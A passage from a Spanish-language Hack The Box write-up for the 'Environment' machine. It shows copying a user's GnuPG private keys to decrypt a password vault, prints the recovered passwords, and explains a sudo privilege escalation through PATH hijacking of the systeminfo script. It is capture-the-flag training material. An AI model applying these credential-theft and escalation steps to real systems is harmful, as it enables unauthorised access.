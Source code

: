 Ahora pego la clave pública y privada al nuevo entorno 
```bash
cp /home/hish/.gnupg/pubring.kbx $GNUPGHOME/
cp -r /home/hish/.gnupg/private-keys-v1.d $GNUPGHOME/
```

Y ahora si me deja descifrar el archivo

```bash
www-data@environment:/home/hish/backup$ gpg -d /home/hish/backup/keyvault.gpg
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

[](/assets/images/htb-writeup-environment/16.png)

Veo que hay un script llamado /usr/bin/systeminfo que puedes ejecutar con sudo como usuario hish.
Ese script ejecuta comandos (como dmesg, ss, mount) sin ruta absoluta (es decir, solo el nombre del comando, no /bin/dmesg).

Eso significa que cuando el script ejecuta dmesg, busca el comando dmesg en el PATH de la sesión.
Si tú creas un archivo llamado dmesg y lo pones en un directorio que esté antes en el PATH, el script ejecutará ese archivo en vez del dmesg real.


```bash
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
hish@environment:~$ file /usr/bin/systeminfo
/usr/bin/systeminfo: Bourne-Again shell script, ASCII text executable
hish@environment:~$ cat /usr/bin/systeminfo  
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```
